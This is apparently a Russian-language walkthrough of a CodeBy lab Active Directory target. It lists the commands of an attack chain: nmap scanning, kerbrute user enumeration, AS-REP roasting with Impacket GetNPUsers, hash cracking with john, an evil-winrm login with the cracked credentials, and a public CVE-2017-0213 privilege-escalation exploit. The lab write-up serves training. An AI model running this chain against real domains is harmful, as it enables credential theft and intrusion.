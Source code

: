 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)

john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)
```
evil-winrm -i 192.168.2.2 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/695aca7e-e845-447e-9bb8-7bdfc20367ce)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97dd49d3-0a4b-400a-a92b-083764b07420)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44d1badc-7f98-437f-ac3c-a09e8ba8aaff)

Remmina

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6140441b-f902-4f07-b03e-66000f074fa1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec67c0ff-68e9-408a-8747-ba16afa1a625)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecc078f6-78a9-4a8c-8f30-10bbdd3d8f8b)

Ищем CVE-2017-0213 на гите 

https://github.com/eonrickity/CVE-2017-0213

Грузим его через Ковалеву и запускаем

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6365bd44-596c-4612-9f3a-6faa7c26d34e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9ce179a9-1e65-44f3-9ac0-618836f41ec5)




